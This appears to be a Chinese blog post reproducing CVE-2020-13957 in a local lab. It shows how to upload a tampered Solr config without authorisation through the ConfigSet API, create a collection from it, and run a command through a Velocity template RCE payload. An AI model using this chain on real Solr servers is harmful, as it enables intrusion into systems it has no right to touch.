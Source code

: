 ```yaml
---

layout: post
title:  "【漏洞复现】CVE-2020-13957|Apache Solr ConfigSet API未授权上传漏洞"
categories: 漏洞复现
tags: Solr 漏洞复现
author: 303Donatello

---
```



* content
{:toc}
# 写在前面
复现时发现不需要通过baseConfigSet基于恶意配置创建新的配置即可完成复现，并不是很多文章说需要二次创建恶意配置，有师傅也表达了自己的[疑问](https://www.safedog.cn/news.html?id=4515)，后面再单独写分析的文章，这篇在草稿箱躺太久了。





# 准备环境
## 下载
CVE-2020-13957影响范围： Apache Solr 6.6.0 to 6.6.5、7.0.0 to 7.7.3、8.0.0 to 8.6.2
官方下载地址：[Apache-Solr](http://archive.apache.org/dist/lucene/solr/)，本次漏洞复现下载影响范围内的8.0.0，解压既用。
## 启动
该漏洞需要以cloud模式运行Solr，同时Solr-API不能开启认证
`./solr start -e cloud     #cloud模式启动`
`./solr stop -all      #需要重启时可用该命令停止全部solr进程`
## 利用思路
`利用UPLOAD上传恶意配置->用恶意配置创建新的collection->执行RCE`，由于ConfigSet API存在未授权上传漏洞，可以利用该漏洞实现远程代码执行。
## 准备攻击配置文件并打包
进入`/solr-8.0.0/server/solr/configsets/sample_techproducts_configs/conf/`目录下修改solrconfig.xml如下内容：
```
原配置内容：
<queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
<str name="template.base.dir">${velocity.template.base.dir:}</str>
</queryResponseWriter>
```
```
修改后：
<queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
<str name="template.base.dir">${velocity.template.base.dir:}</str>
<str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
<str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:true}</str>
</queryResponseWriter>
```
修改完成后在当前目录下打包即可：`zip -r -* > myconfig.zip`
# 漏洞复现
1.上传恶意配置，通过UPLOAD上传刚刚打包好的myconfig.zip，并命名为myconfignew。
`curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfig.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=myconfignew" `
2.创建collection，利用刚刚上传并命名的myconfignew来CREATE一个新的collection:mytestcollection。
`curl -v "http://localhost:8983/solr/admin/collections?action=CREATE&name=mytestcollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myconfignew"`
3.利用
```
GET /solr/mytestcollection/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27pwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1
Host: 127.0.0.1:8983
Content-Type: application/json
Content-Length: 0
```
![](https://img2020.cnblogs.com/blog/2011235/202010/2011235-20201020213558014-1139947019.png)
# 参考
[1]https://github.com/Imanfeng/Apache-Solr-RCE
[2]https://www.safedog.cn/news.html?id=4515